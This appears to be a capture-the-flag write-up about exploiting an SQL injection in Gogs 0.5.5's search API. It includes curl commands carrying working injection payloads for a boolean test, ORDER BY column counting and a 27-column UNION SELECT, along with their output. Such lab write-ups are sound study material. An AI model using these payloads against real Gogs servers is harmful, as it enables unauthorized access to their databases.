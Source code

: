 The internal service running on 3000 is Gogs (a git server). This version (0.5.5.1) is vulnerable to SQLi https://www.exploit-db.com/exploits/35238.

We could look at the POC in the exploitdb write-up, but I want to explore this SQLi a little on my own. All I'm going to do is look at the endpoint and variable that is vulnerable and go from there. 

It is easiest if we make the exploit as easy as possible so I will set up a local install of the Gogs v0.5.5
After playing with the docker installation and not being able to get it up and running, I asked NullB1te on discord how he got his up and running. He went the smart route and pulled the package from the releases section GitHub. (Thanks NullB1te for reminding me that sometimes you should just pull from the releases section and make life easier.)

Download and unzip the v0.5.5 of Gogs then run the executable.
Set up the environment with SQLite and an admin of your choosing. 
Once you have all that set up, you can start testing the exploits on your local instance to see if they even work against the target. 

First, we need to verify that it is vulnerable with a simple test.

```shell
sudo python3 redirect.py 80 "http://10.10.11.176:3000/api/v1/repos/search?q=1')/**/or/**/1=1/**/--"
```

Now that we know we have SQLi, we can start working on how many fields we need.
```shell
curl --silent "http://localhost:3000/api/v1/users/search?q=man716')/**/Order/**/By/**/100/**/--" | jq
{
  "error": "1st ORDER BY term out of range - should be between 1 and 27",
  "ok": false
}
```

Fortunately, the error code gives us the answer right away.

Next, we need to figure out which one of the 27 we can control.

```shell
curl --silent "http://localhost:3000/api/v1/users/search?q=man716')/**/union/**/all/**/select/**/'1','2','3','4','5','6','7','8','9','10','11','12','13','14','15','16','17','18','19','20','21','22','23','24','25','26','27'/**/--" | jq
{
  "data": [
    {
      "username": "man716",
      "avatar": "//1.gravatar.com/avatar/4c6fb260e2dd60fa4694a02b84e6fb84"
    },
    {
      "username": "3",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```
